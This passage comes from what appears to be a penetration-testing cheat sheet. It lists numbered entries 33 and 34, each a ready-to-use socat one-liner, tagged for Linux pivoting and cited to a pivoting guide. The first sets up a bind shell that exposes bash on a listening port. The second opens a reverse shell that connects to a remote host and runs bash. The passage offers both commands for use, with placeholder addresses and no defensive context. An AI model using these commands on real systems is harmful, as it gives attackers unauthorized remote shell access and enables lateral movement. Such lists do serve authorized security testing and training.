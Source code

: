http://proxychains.sourceforge.net/
https://artkond.com/2017/03/23/pivoting-guide/
__________
### 33. Socat BindShell, First on server, second on client
```
socat TCP-LISTEN:[lip],reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane; socat FILE:`tty`,raw,echo=0 TCP:[rip]:[rport]
```
**- linux,pivoting,shells**
#### References:

https://artkond.com/2017/03/23/pivoting-guide/
__________
### 34. Socat reverse shell, First on client, second on server
```
socat TCP-LISTEN:[lip],reuseaddr FILE:`tty`,raw,echo=0; socat TCP4:[rip]:[rport] EXEC:bash,pty,stderr,setsid,sigint,sane
```
**- linux,pivoting,reverse shells**
#### References:

https://artkond.com/2017/03/23/pivoting-guide/
__________
